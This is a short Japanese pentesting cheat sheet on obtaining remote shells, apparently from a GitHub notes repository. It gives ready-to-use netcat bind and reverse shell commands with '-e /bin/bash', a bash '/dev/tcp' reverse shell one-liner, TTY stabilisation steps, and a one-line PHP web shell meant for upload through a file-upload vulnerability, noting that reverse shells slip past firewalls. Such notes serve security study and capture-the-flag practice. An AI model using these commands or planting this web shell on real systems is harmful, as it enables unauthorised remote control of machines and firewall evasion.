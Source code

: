 # 遠隔からのシェル

* ファイアウォールでインバウンド通信で接続とポートが許可されている場合はバインドシェルが可能
* アウトバウンド通信は許可されている場合が多いためリバースシェルはファイアウォールを回避しやすい。

## バインドシェル・リバースシェル `netcat`を使用

* netcat

``` shell
    # 待ち受け
    nc -vlp 1027
    # 接続
    nc -v 192.168.XXX.XXX 1027 -e /bin/bash
    # /bin/bashのところはwindowsならcmd.exe
```

* bash
  
``` shell
    bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1
    #または
    bash -c 'bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1'
```

* シェルの安定化

``` shell
    # python
    python3 -c 'import pty; pty.spawn("/bin/bash")'
```

``` shell
    # script
    script /dev/null -qc /bin/bash
```

``` shell
    # 共通
    ctrl + z
    stty raw -echo; fg
    SHELL=/bin/bash
    export TERM=screen
    stty rows 38 columns 116; reset;
```

## Webシェル

* 入力を待ち受けできるphpファイルを作成しFile Uploadの脆弱性を利用しアップロード
* アップしたphpファイルを利用してweb経由でコマンド実行

``` php
    # webshell.php
    <?php system($_GET["cmd"]); ?>
```
